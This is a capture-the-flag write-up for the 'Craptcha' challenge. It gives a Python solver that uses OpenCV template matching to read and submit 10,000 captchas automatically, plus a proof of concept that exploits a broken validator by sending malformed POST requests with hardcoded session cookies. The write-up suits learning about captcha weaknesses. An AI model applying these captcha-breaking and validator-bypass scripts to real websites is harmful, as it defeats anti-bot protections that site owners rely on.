





# Craptcha (AVHACK 2020) (Very hard)





From site we can see that we have some pretty generic captcha to solve, upon entering the right captcha we see following:



This means we need to fill 10000 captchas to get the flag, sounds quite tedious task to do by hand. Lets also find out what happens if we get it wrong.



So that means we have to get all captchas 100% right.

First idea I had was to try using OCR since we need to optically recognize characters of a image, and OCR should suit it. However after trying out tesseract and gocr, neither of those gave satisfactory results due to being not accurate enough.

Then I got another idea upon checking captchas out more. I discovered that line height of text is always, the same. This means we can do literal image search within image, since the characters are not warped in anyway.

## Way to solution

Firstly we need to get all characters of character set which are used to create the captcha images, to achive that we need to download bunch of captcha images and cut out the templates for letters.

I wrote python script to solve all of this challenge, but firstly I had to gather some captchas which is also part of the solver. After getting bunch of captchas I went over like 30 to and cut out the templates for unique characters.

Captcha characterset consists of 24 characters which are following:


I had to tweak some of the templates because of bad recognition, for example j letter in text cannot be selected by box because it will cut into previous character like this:


To counter that I could just cut j pretty straight without the lower part of it since letter i is not used in characterset.

Another problematic letter was y and v since, y was getting recognized as v cause, v template didn't have additional space on the bottom part of the template. So pattern matching understood y as v, since y kinda looks like v without the lower part. So you can see on the characterset picture that v has some blank space at the bottom.

Now that we have characterset ready for recognition we can write our solver code!

```python
import requests # Module for making get/post requests
from bs4 import BeautifulSoup # HTML parser to find elements
import os # Listing files
import cv2 # Open ComputerVision lib
import shutil # Copying data to file
import numpy as np # Numpy for filtering np arrays

# Create session, since progress is tracked by session cookies
s = requests.session()

# Letter template files
letter_files = os.listdir('./letters/')

# Load templates into memory to make it faster
letters = [cv2.imread('./letters/' + letter_file) for letter_file in letter_files]

# URL to get the captcha from
url = "http://ctfp.ee:9999/captcha.php"
# URL to post answer to
post_url = "http://ctfp.ee:9999/"

# Magic detection function
def get_captcha_text(image):
    detected_letters = []

    # Iterate over each template character and see if it is in picture
    for template, letter in zip(letters, letter_files):
        # This returns us the template matching results
        result = cv2.matchTemplate(image, template, cv2.TM_CCOEFF_NORMED)
        # Filter out only matches where match % >= 95
        loc = np.where(result >= 0.95)
        # If matches were found for letter
        if loc[1].size:
            # Add letter to detected letters for later on with x
            # coordinate where the letter was found
            detected_letters.append((letter, loc[1]))

    answer = {}


    # Go over detected letters
    for letter in detected_letters:
        # Can be multiple of same letter 
        # (letter is a tuple of file name and x index of match found)
        for index in letter[1]:
            # Use x coord as dictionary key to sort them later on
            answer[index] = letter[0].split('.jpeg')[0]


    answer = dict(sorted(answer.items()))

    text = ""

    # Make our sorted dict into string of detected captcha text
    for key in answer.keys():
        text += answer[key]

    return text

# Get 10000 captchas and solve them!
for i in range(10000):
    # Request captcha from captcha url
    r = s.get(url, stream=True)

    filename = f'captcha.jpeg'

    # Save captcha as file (could be done without saving to file too)
    with open(filename, 'wb') as picture:
        shutil.copyfileobj(r.raw, picture)

    # Open image for comparision
    image = cv2.imread(filename)

    # Feed it to the magic function!
    captcha_message = get_captcha_text(image)


    payload = {
        'captcha' : captcha_message
    }

    # Post the found captcha to site!
    r = s.post(post_url, data=payload)

    # Parse out response text and display progress
    soup = BeautifulSoup(r.text, 'lxml')
    try:
        h3 = soup.find("h3")
        print(h3.text)
    except AttributeError:
        # If there is no h3 tag then flag exists on page.
        flag = soup.find_all("div", {'class' : 'p-5'})
        # Profit we found the flag!
        print(flag[1].text.strip().split('\n')[0].strip())

```

This solver solves 10000 captchas pretty quickly, however upon tinkering I found out even faster way to crack this challenge.

Captcha validator is broken and doesn't handle faulty post requests and increases your progress anyway. Following is proof of concept.

```python
import requests
from bs4 import BeautifulSoup

cookies = {
    'session': '5b8a83c4-7930-424d-9312-27a6a19c83a0.KPT1QyRRbR_ogG9-MpzeaXzkSQk',
    'PHPSESSID': 'pr24ct3me3o69fp1sg8s6be2gk',
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://ctfp.ee:9999',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://ctfp.ee:9999/',
    'Accept-Language': 'en-US,en;q=0.9,et;q=0.8,et-EE;q=0.7',
}

text = "i am broken"

for i in range(10000):
    response = requests.post('http://ctfp.ee:9999/', cookies=cookies, headers=headers, data=text)
    soup = BeautifulSoup(response.text, features='lxml')
    try:
        h3 = soup.find("h3")
        print(h3.text)
    except AttributeError:
        flag = soup.find_all("div", {'class' : 'p-5'})
        print(flag[1].text.strip().split('\n')[0].strip())


```

So in the end no captchas needed actually to be solved :o

Was a fun challenge to crack!